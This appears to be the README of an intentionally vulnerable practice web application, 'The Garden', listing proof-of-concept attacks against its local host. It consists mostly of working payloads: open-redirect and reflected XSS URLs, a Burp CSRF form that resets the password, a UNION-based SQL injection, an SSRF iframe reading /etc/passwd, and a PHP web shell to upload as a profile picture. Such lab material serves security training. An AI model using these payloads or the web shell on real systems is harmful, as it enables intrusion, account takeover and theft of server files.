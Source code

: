 # The Garden

It's vulnerable by purpose.


## Open Redirect

http://thegarden.local.net/login?r=https://10degres.net and log in  
http://thegarden.local.net/?r=https://10degres.net and log out  

## Information disclosure

- 

## IDOR

- 

## XSS

http://thegarden.local.net/login?r=111%27%22--%3E%3Csvg/onload=prompt()%3E111 not authenticated
http://thegarden.local.net/dashboard?r=111%27%22--%3E%3Csvg/onload=prompt()%3E111 authenticated

http://thegarden.local.net/?q=111%27%22--%3E%3Csvg/onload=prompt()%3E111

http://thegarden.local.net/reset-password/111?email=111%27%22--%3E%3Csvg/onload=prompt()%3E111 not authenticated

## CSRF

Profile / Change Password:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://thegarden.local.net/change-password" method="POST">
      <input type="hidden" name="password" value="evilpassword" />
      <input type="hidden" name="password&#95;confirmation" value="evilpassword" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## SQL injection

http://thegarden.local.net/api/orders/29%27%20union%20select%20null,null,null,null,null,null,null,null,null,null,null,null,null,null,null%20order%20by%20id%23  

## SSRF

Generate PDF with order->address: 111<iframe src='file:///etc/passwd'></iframe>222

## File upload

Profile picture:
<?php echo shell_exec($_REQUEST['cmd']); ?>

